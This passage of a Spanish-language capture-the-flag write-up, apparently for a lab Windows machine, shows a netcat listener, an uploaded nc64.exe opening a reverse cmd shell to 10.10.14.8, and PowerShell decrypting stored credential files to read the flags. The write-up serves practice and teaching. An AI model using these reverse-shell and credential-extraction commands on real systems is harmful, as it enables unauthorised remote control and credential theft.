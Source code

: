     ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el ncat previamente uploadeado en el systema

    ```bash
    C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443
    ```

Ya somos el usuario Administrator y intentamos ejecutar la operacion cryptografica para leer la flag.

```bash
cd C:\Data\administrator
powershell
(Import-CliXml -Path root.txt)
(Import-CliXml -Path root.txt).GetNetworkCredential()
(Import-CliXml -Path user.txt).GetNetworkCredential().password
```

Ya tenemos la flag del usuario Administrator.


